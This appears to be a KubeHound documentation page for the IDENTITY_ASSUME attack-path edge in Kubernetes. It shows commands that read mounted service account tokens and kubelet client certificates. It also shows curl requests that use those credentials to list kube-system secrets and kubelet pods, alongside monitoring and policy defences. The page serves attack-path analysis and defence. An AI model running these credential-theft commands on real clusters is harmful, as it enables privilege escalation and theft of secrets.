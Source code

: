 ```yaml
---
title: IDENTITY_ASSUME
---
```


<!--
id: IDENTITY_ASSUME
name: "Act as identity"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege escalation
-->

# IDENTITY_ASSUME

| Source                                                             | Destination                         | MITRE                                                               |
| ------------------------------------------------------------------ | ----------------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md), [Node](../entities/node.md) | [Identity](../entities/identity.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

Represents the capacity to act as an [Identity](../entities/identity.md) via ownership of a service account token, user PKI certificate, etc.

## Details

Authentication to the K8s API is performed via passing certificates, static tokens or OIDC tokens in the API request. This edge represents the ability to assume an identity using either acquired credentials (such as a service account token) or the intrinsic identity of a resource in K8s such as executing commands from inside a pod with a bound serviceaccount.

## Prerequisites

Control of execution within a container with a bound serviceaccount or access to a node file system.

## Checks

### Container 

Check for a mounted service account tokens or secrets:

```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

### Node 

Check the kubelet configuration:

```bash
cat $NODE_ROOT/etc/kubernetes/kubelet.conf 
```

This should contain the paths of the kubelet user certificates that we can steal to impersonate the node user:

```yaml
users:
- name: default-auth
  user:
    client-certificate: /var/lib/kubelet/pki/kubelet-client-current.pem
    client-key: /var/lib/kubelet/pki/kubelet-client-current.pem
```

Check the file(s) are accessible:

```bash
ls -la $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem
```

## Exploitation

### Container 

Assuming a valid token is recovered from e.g a mounted service account a token is found it can be used to interact with the K8s API, to potentially access new resources:

```bash
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets
```

### Node

The kubelet PKI certificates can be used to authenticate to either the kubelet or the K8s API:

```bash
 curl -k --cacert $NODE_ROOT/etc/kubernetes/pki/ca.crt --key $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem --cert {$NODE_ROOT}/var/lib/kubelet/pki/kubelet-client-current.pem https://${NODE_IP}:10250/pods/ 
```

## Defences

### Monitoring

+ Monitor for installation and/or execution of kubectl within pods. This is anomalous activity but may be triggered by legitimate SRE or developer activities.
+ Interacting directly with the K8s API via non-standard tools e.g curl could be observed via the User-Agent field in audit logs. However, this is attacker controlled so should not be relied on.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the identities under which new pods can run.

## Calculation

+ [IdentityAssumeContainer](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/identity_assume_container.go)
+ [IdentityAssumeNode](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/identity_assume_node.go)

## References:  

+ [Official Kubernetes Documentation](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#authentication-strategies)
+ [CURLing the Kubernetes API](https://nieldw.medium.com/curling-the-kubernetes-api-server-d7675cfc398c)
+ [Kubelet API Overview](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html)
+ [Node AuthN/AuthZ](https://kubernetes.io/docs/reference/access-authn-authz/node/)
